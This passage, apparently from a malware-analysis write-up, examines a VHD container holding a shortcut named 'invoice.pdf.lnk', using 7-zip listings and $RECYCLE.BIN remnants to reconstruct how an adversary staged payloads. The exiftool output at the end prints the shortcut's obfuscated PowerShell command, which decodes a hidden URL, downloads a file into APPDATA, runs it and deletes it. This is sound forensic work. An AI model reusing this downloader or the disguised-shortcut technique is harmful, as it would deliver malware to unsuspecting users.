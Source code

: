 ```console
2023-02-09 18:01:50 ....A       318976       319488  $RECYCLE.BIN/$RUX08ML.pif
2023-05-01 10:40:50 ....A           66         4096  $RECYCLE.BIN/$I2WRCTB.lnk
2023-04-14 16:05:56 ....A         3196         4096  $RECYCLE.BIN/$R2WRCTB.lnk
------------------- ----- ------------ ------------  ------------------------
2023-05-01 10:40:50           50513272     50663424  58 files, 2 folders
```

7-zip gave us a lot of useful info here before we even unpack the files! First, 7-zip enumerated files details and let us know that the VHD was created on a Windows 10 system (look for "Creator Application" in the output) and that the file contains a FAT32 filesystem within. In addition, 7-zip told us that there are a LOT of files within the VHD file, even if they aren't visible to a user at mount time. Notice the two folders `$RECYCLE.BIN` and `System Volume Information`. These two folders can be a goldmine of intelligence within VHD file containers because their contents can tell you what files the adversary previously stored in a mounted VHD drive before deleting them, and they can contain a GUID value you can use for tracking payloads using tools like YARA.

Looking through the output, I can immediately tell that the adversary likely created a VHD file on 2022-10-26, mounted it to their system, and then proceeded to stage payloads on it as they worked. At different days, they'd delete the staged payload, create whatever their new one was, and then export the VHD for distribution. Instead of creating a clean VHD file every time, they reused the same mounted VHD over and over, leaving additional evidence. Let's unpack the VHD and see what the most recent payload was.

```console
$ ls -l
total 19844
drwxrwxr-x  4 remnux remnux     4096 Jul 23 19:56  ./
drwxrwxr-x 10 remnux remnux     4096 Jul 23 19:48  ../
drwx------  2 remnux remnux     4096 Oct 27  2022 '$RECYCLE.BIN'/
-rw-rw-r--  1 remnux remnux     3172 May  1 10:39  invoice.pdf.lnk
-rw-r--r--  1 remnux remnux 18919424 Jul 24  2023  invoice.vhd
drwx------  2 remnux remnux     4096 Oct 26  2022 'System Volume Information'/
```

It looks like the adversary intended `invoice.pdf.lnk` to be their most recent payload, and we can get details from it using `exiftool`:

```console
$ exiftool invoice.pdf.lnk 
ExifTool Version Number         : 12.60
File Name                       : invoice.pdf.lnk
Directory                       : .
File Size                       : 3.2 kB
File Modification Date/Time     : 2023:05:01 10:39:50-05:00
File Access Date/Time           : 2023:05:01 00:00:00-05:00
File Inode Change Date/Time     : 2023:07:23 19:56:06-05:00
File Permissions                : -rw-rw-r--
File Type                       : LNK
File Type Extension             : lnk
MIME Type                       : application/octet-stream
Flags                           : IDList, RelativePath, CommandArgs, IconFile, Unicode, ExpIcon
File Attributes                 : (none)
Target File Size                : 0
Icon Index                      : 13
Run Window                      : Show Minimized No Activate
Hot Key                         : (none)
Target File DOS Name            : powershell.exe
Relative Path                   : ..\..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Command Line Arguments          : -ExecutionPolicy UnRestricted $ProgressPreference = 0;.function MkZib($QaDpU){$QaDpU[$QaDpU.Length..0] -join('')};.function fYPTozHjY($QaDpU){.$etoYGh = MkZib $QaDpU;.for($EUMmeaFBf = 0;$EUMmeaFBf -lt $etoYGh.Length;$EUMmeaFBf += 2){.try{$bfMIiw += MkZib $etoYGh.Substring($EUMmeaFBf,2)}.catch{$bfMIiw += $etoYGh.Substring($EUMmeaFBf,1)}};$bfMIiw};.$iEiSgWkq = fYPTozHjY 'ahtb./rUCsFMYt/geh/.sersfantr//s:tpht';.$wmrri = $env:APPDATA + '\' + ($iEiSgWkq -split '/')[-1];.[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;.$DLbhY = wget $iEiSgWkq -UseBasicParsing;.[IO.File]::WriteAllText($wmrri, $DLbhY);.& $wmrri;.sleep 3;.rm $wmrri;
```